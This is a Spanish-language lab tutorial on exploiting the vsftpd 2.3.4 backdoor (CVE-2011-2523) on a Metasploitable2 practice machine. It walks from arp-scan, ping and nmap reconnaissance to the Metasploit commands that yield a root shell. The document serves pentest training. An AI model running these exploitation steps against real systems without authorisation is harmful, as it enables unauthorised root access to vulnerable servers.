

# Uso Básico de Metasploit – Linux - vsftpd

Maquinas que vamos a utilizar Kali Linux y Metasploitable2 (se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla).




En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```


- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    
    

```bash
ping -c 1 10.0.3.7
```


Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.


Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```


- Abrimos el Metasploit
    
    
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`


Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.


`search vsFTP 2.3.4`


`use 0`


`show options`


Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`


**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`


**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`


**Ya estaríamos dentro con privilegios de Root**.